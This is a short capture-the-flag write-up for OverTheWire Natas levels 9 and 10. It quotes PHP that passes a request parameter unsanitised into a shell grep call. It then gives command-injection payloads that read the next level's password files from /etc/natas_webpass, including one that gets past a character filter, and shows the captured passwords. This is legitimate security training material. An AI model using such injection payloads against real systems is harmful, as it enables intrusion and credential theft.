 ### natas9

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

Because `$key` isn't validated, we can inject cli into `$key`. 
The payload is `'123' dictionary.txt; cat /etc/natas_webpass/natas10`

```
Output:
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

African
Africans
...
```

### natas10

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```

Some certain characters was filtered, but we can use another payload look like `'' /etc/natas_webpass/natas11`

```
Output:
/etc/natas_webpass/natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
dictionary.txt:
dictionary.txt:African
dictionary.txt:Africans
...
```
